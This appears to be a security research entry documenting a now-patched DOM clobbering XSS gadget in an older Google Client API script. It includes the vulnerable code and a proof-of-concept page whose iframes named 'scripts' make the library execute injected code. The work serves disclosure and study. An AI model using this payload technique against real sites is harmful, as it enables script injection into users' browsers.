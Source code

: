 ## Google Client API

### Meta

+ Library: Google Client API
+ Version: 5BIk7BglYEE
+ Payload: ```<iframe name="scripts" src=”https://apis.google.com/js/api.js”>alert("GG!")</iframe><iframe name="scripts" src=”https://apis.google.com/js/api.js”>alert("GG!")</iframe>```
+ Impact: XSS
+ Foundby: TheHulk


### Library

URL: 
+ `https://apis.google.com/js/api.js`
+ `https://apis.google.com/_/scs/abc-static/_/js/k=gapi.lb.en.5BIk7BglYEE.O/m=client/rt=j/sv=1/d=1/ed=1/am=AAAC/rs=AHpOoo9V8V9Op_7rn4BCy9pIOBNUyU2IjA/cb=gapi.loaded_0?le=scs`


### Vulnerable Code Snippet

```javascript
var e = document.scripts || document.getElementsByTagName("script") || [];
        d = [];
        var f = [];
        f.push.apply(f, zf("us"));
        for (var h = 0; h < e.length; ++h)
            for (var k = e[h], l = 0; l < f.length; ++l)
                k.src && 0 == k.src.indexOf(f[l]) && d.push(k);
        0 == d.length && 0 < e.length && e[e.length - 1].src && d.push(e[e.length - 1]);
        for (e = 0; e < d.length; ++e)
            d[e].getAttribute("gapi_processed") || (d[e].setAttribute("gapi_processed", !0),
            (f = d[e]) ? (h = f.nodeType,
            f = 3 == h || 4 == h ? f.nodeValue : f.textContent || "") : f = void 0,
            (f = Df(f)) && b.push(f));
        a && Ef(c, a);
```
```javascript
Df = function(a) {
    if (a && !/^\s+$/.test(a)) {
        for (; 0 == a.charCodeAt(a.length - 1); )
            a = a.substring(0, a.length - 1);
        try {
            var b = window.JSON.parse(a)
        } catch (c) {}
        if ("object" === typeof b)
            return b;
        try {
            b = (new Function("return (" + a + "\n)"))()
        } catch (c) {}
        if ("object" === typeof b)
            return b;
        try {
            b = (new Function("return ({" + a + "\n})"))()
        } catch (c) {}
        return "object" === typeof b ? b : {}
    }
}
```

## PoC

Please note that this gadget has been patched by Google through the release of a newer version: [link](https://apis.google.com/_/scs/abc-static/_/js/k=gapi.lb.en.6jI6mC1Equ4.O/m=client/rt=j/sv=1/d=1/ed=1/am=AAAQ/rs=AHpOoo-79kMK-M6Si-J0E_6fI_9RBHBrwQ/cb=gapi.loaded_0?le=scs). Therefore, initializing `https://apis.google.com/js/api.js` will load the updated script. To demonstrate the DOM clobbering gadgets, we manually load the vulnerable version here.

```
Patched Verison
https://apis.google.com/_/scs/abc-static/_/js/k=gapi.lb.en.6jI6mC1Equ4.O/m=client/rt=j/sv=1/d=1/ed=1/am=AAAQ/rs=AHpOoo-79kMK-M6Si-J0E_6fI_9RBHBrwQ/cb=gapi.loaded_0?le=scs
```

### PoC #1
```html

<!DOCTYPE html>
<html>
<head>
  <title>Google API Client Example</title>
  <script>
    // Load the Google API client library
    function loadGapi() {
      const script = document.createElement('script');
      script.src = 'https://apis.google.com/js/api.js';
      script.onload = () => initGapi();
      document.body.appendChild(script);
    }

    // Initialize the Google API client library
    function initGapi() {
      gapi.load('client', initClient);
    }

    // Set up the API client and make a request
    function initClient() {}

    // Load the additional script
    function loadAdditionalScript() {
      const script = document.createElement('script');
      script.src = 'https://apis.google.com/_/scs/abc-static/_/js/k=gapi.lb.en.5BIk7BglYEE.O/m=client/rt=j/sv=1/d=1/ed=1/am=AAAC/rs=AHpOoo9V8V9Op_7rn4BCy9pIOBNUyU2IjA/cb=gapi.loaded_0?le=scs';
      document.body.appendChild(script);
    }

    // Initialize the loading process
    function initialize() {
      loadGapi();
      loadAdditionalScript();
    }
  </script>
</head>
<body onload="initialize()">
  <h1>Google Sheets API Client Example</h1>
  // PAYLOAD
  <iframe name="scripts" src="https://apis.google.com/js/api.js">alert("GG!")</iframe>
  <iframe name="scripts" src="https://apis.google.com/js/api.js">alert("GG!")</iframe>
</body>
</html>
```

